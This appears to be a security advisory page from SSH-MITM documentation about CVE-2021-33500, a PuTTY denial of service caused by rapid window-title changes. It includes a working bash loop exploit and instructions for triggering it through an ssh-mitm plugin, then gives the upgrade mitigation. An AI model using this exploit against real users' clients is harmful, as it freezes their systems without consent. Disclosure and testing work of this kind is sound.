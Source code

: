 CVE-2021-33500
==============

.. card::

    :bdg-warning:`CVSS 7.5` CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
    ^^^
    PuTTY before 0.75 on Windows allows remote servers to cause a denial of service
    (Windows GUI hang) by telling the PuTTY window to change its title repeatedly at high speed,
    which results in many SetWindowTextA or SetWindowTextW calls.

    NOTE: the same attack methodology may affect some OS-level GUIs on Linux or other platforms for similar reasons.
    +++
    **Affected Software:**

    * PuTTY < 0.75


Description
-----------

A vulnerability in PuTTY < 0.75 freezes the entire, leading inevitably to a manual restart. This happens when executing
a simple command to repeatedly change the terminals title.

Set window title from terminal:

.. code-block:: bash

    $ PS1=''
    echo -ne "\033]0; NEW_TITLE \007"

Thus, an working exploit would be:

.. code-block:: bash

    $ PS1=''
    while :
    > do
    > echo -ne "\033]0; NEW_TITLE${RANDOM}  \007"
    > done


Using the injection functionality of the mitm Server, this exploit can be executed immediately when a client connects
to the mitm server via PuTTY.

Test with SSH-MITM
------------------

A proof of conecpt exploit is integrated in the extra package ssh-mitm-plugins.

You can install the required extra packages with following command:

.. code-block:: bash

    $ python3 -m pip install ssh-mitm[plugins]


After installing the plugins you can start ssh-mitm:

.. code-block:: bash

    $ ssh-mitm server --ssh-interface puttydos

When you have logged in with PuTTY to the ssh-mitm server,
ssh-mitm executed the exploit and PuTTY will freeze the desktop.



Mitigation
----------

Update PuTTY to version >= 0.75


References
----------

* https://nvd.nist.gov/vuln/detail/CVE-2021-33500